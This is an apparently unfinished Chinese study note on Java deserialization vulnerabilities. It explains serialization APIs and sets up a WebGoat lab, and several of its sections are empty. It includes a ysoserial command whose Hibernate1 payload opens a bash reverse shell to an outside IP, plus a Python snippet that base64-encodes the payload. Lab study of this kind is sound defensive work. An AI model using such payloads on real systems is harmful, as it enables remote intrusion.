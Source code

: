 ![](https://gitee.com/YatJay/image/raw/master/img/202203201205184.png)

# 涉及知识

## 概念

### Java序列化和反序列化

我们需要保存某—刻某个对象的信息，来进行一些操作。比如利用反序列化将程序运行的对象状态以二进制形式储存与文件系统中，然后可以在另—个程序中对序列化后的对象状态数据进行反序列化恢复对象。序列化是让Java对象脱离Java运行环境的一种手段，可以有效的实现多平台之间的通信、对象持久化存储。

#### 序列化(Serialization)

将对象的状态信息转换为可以存储或传输的形式的过程。在序列化期间，对象将其当前状态写入到临时或持久性存储区。

`Java序列化`是指把Java对象转换为字节序列的过程(便于保存在内存、文件、数据库中)，`ObjectOutputStream`类的`writeObject()`方法可以实现序列化。

#### 反序列化

从存储区中读取该数据，并将其还原为对象的过程，称为反序列化。

`Java反序列化`是指把字节序列恢复为Java对象的过程，`ObjectInputStream`类的`readObject()`方法用于反序列化。

### Java中序列化和反序列化的API实现

![](https://gitee.com/YatJay/image/raw/master/img/202203201501416.png)

实现`java.io.Serializable`接口才可被反序列化，而且所有属性必须是可序列化的(用`transient`关键字修饰的属性除外，不参与序列化过程)

在Java中，只要一个类实现了`java.io.Serializable`接口，那么它就可以通过`ObjectInputStream`与`ObejctOutputStream`序列化.

一个类的对象要想序列化成功，必须满足两个条件：

1. 该类必须实现` java.io.Serializable` 接口。

2. 该类的所有属性必须是可序列化的。如果有一个属性不是可序列化的，则该属性必须注明是短暂的。

如果想知道一个 Java 标准类是否是可序列化的，可以通过查看该类的文档,查看该类有没有实现 `java.io.Serializable`接口。

## 利用







## 检测







## 修复

与前面漏洞修复类似











# 演示案例

## Java反序列化及命令执行代码测试







## WebGoat Javaweb靶场反序列化测试

本地Java环境搭建WebGoat失败，因此选择在Linux虚拟机中使用docker搭建靶场，详细参见[WebGoat靶场搭建.md](../Part0 补充内容/02_工具使用/WebGoat靶场搭建.md)

参考上述搭建过程进行搭建，本地靶场地址为：http://192.168.137.133:8080/WebGoat

勾选Java反序列化类漏洞，显示如下(已开启翻译)

![](https://gitee.com/YatJay/image/raw/master/img/202203202257780.png)

==///////////////////////////==



































```bash
java -Dhibernate5 -cp hibernate-core-5.4.9.Final.jar;ysoserial-master-d367e379d9-1.jar ysoserial.GeneratePayload Hibernate1 "bash -c 'exec bash -i &>/dev/tcp/121.4.97.34/5812 <&1'" > payload.bin
```





## 2020-网鼎杯-朱雀组-Web-think Java真题复现













# 涉及资源

https://github.com/frohoff/ysoserial/releases

https://github.com/WebGoat/WebGoat/releases

https://github.com/NickstaDB/SerializationDumper/releases/tag/1.12



```python
import base64

c=open("payload.bin","rb").read()
cc=base64.urlsafe_b64encode(c)
open("payload.txt","wt",ecoding="utf-8").write(cc.decode())
```

